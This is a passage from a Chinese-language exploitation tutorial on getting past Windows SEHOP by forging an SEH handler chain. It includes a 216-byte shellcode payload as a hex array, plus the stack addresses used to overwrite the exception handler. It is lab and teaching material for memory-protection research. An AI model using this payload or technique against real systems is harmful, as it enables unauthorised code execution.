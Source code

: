 可以看到我们的`SEH_Record[0]`地址为`0x19FE84`，我们知道了我们的 Payload 所需的大小，我们就来布置 Payload。  
这里给出我的 Payload：

```plain
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\SEHOP\Debug\111.txt
// Address : 0 (0x0)
// Size    : 216 (0xD8)
//------------------------------------------------------------
unsigned char hexData[216] = {
    0xBE, 0xE8, 0x88, 0x3C, 0xFD, 0xD9, 0xD0, 0xD9,
    0x74, 0x24, 0xF4, 0x5A, 0x33, 0xC9, 0xB1, 0x30,
    0x31, 0x72, 0x13, 0x03, 0x72, 0x13, 0x83, 0xEA,
    0x14, 0x6A, 0xC9, 0x01, 0x0C, 0xE9, 0x32, 0xFA,
    0xCC, 0x8E, 0xBB, 0x1F, 0xFD, 0x8E, 0xD8, 0x54,
    0xAD, 0x3E, 0xAA, 0x39, 0x41, 0xB4, 0xFE, 0xA9,
    0xD2, 0xB8, 0xD6, 0xDE, 0x53, 0x76, 0x01, 0xD0,
    0x64, 0x2B, 0x71, 0x73, 0xE6, 0x36, 0xA6, 0x53,
    0xD7, 0xF8, 0xBB, 0x92, 0x10, 0xE4, 0x36, 0xC6,
    0xC9, 0x62, 0xE4, 0xF7, 0x7E, 0x3E, 0x35, 0x73,
    0xCC, 0xAE, 0x3D, 0x60, 0x84, 0xD1, 0x6C, 0x37,
    0x9F, 0x8B, 0xAE, 0xB9, 0x4C, 0xA0, 0xE6, 0xA1,
    0x91, 0x8D, 0xB1, 0x5A, 0x61, 0x79, 0x40, 0x8B,
    0xB8, 0x82, 0xEF, 0xF2, 0x75, 0x71, 0xF1, 0x33,
    0xB1, 0x6A, 0x84, 0x4D, 0xC2, 0x17, 0x9F, 0x89,
    0xB9, 0xC3, 0x2A, 0x0A, 0x19, 0x87, 0x8D, 0xF6,
    0x98, 0x44, 0x4B, 0x7C, 0x96, 0x21, 0x1F, 0xDA,
    0xBA, 0xB4, 0xCC, 0x50, 0xC6, 0x3D, 0xF3, 0xB6,
    0x4F, 0x05, 0xD0, 0x12, 0x14, 0xDD, 0x79, 0x02,
    0xF0, 0xB0, 0x86, 0x54, 0x5B, 0x6C, 0x23, 0x1E,
    0x71, 0x79, 0x5E, 0x7D, 0x1F, 0x7C, 0xEC, 0xFB,
    0x6D, 0x7E, 0xEE, 0x03, 0xC1, 0x17, 0xDF, 0x88,
    0x8E, 0x60, 0xE0, 0x5A, 0xEB, 0x9F, 0xAA, 0xC7,
    0x5D, 0x08, 0x73, 0x92, 0xDC, 0x55, 0x84, 0x48,
    0x22, 0x60, 0x07, 0x79, 0xDA, 0x97, 0x17, 0x08,
    0xDF, 0xDC, 0x9F, 0xE0, 0xAD, 0x4D, 0x4A, 0x07,
    0xE4, 0xFF, 0x19, 0x00, 0xB4, 0xFD, 0x19, 0x00 
};
```

然后可以看到，我们的 SEH 异常处理指针被我们成功覆盖，SEH 异常处理链也伪造完成：

[![](assets/1709530881-9dea21d9230cc80e44fc30ecab00ae75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301152714-1fe6a68e-d79d-1.png)

关于 SEHOP 的介绍我们就介绍到这里，关于伪造 SEH 异常处理链表的伪造，如果还有不懂的，可以参考一下这篇博客[内存保护机制及绕过方法——通过伪造 SEHOP 链绕过 SEHOP 保护机制](https://www.cnblogs.com/zhang293/p/9052261.html) 。
